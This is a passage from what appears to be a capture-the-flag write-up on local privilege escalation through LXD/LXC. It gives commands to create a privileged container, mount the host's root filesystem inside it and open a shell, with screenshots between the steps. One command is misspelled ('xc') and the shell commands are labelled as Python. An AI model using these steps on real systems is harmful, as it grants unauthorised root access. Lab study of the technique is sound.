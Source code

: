 We now need to create a machine from the image, this can be done by running the following command:

```python
lxc init alpine privesc -c security.privileged=true
```

![image.png](../../../assets/joker/image%2020.png)

To gain root access, mount the entire host system into /mnt/root using this command.

```python
xc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

![image.png](../../../assets/joker/image%2021.png)

now we need to start the machine. and lxc list to ensure that the machine is running.

![image.png](../../../assets/joker/image%2022.png)

now to exploit machine run following command:

```python
lxc exec privesc /bin/sh
```

![image.png](../../../assets/joker/image%2023.png)
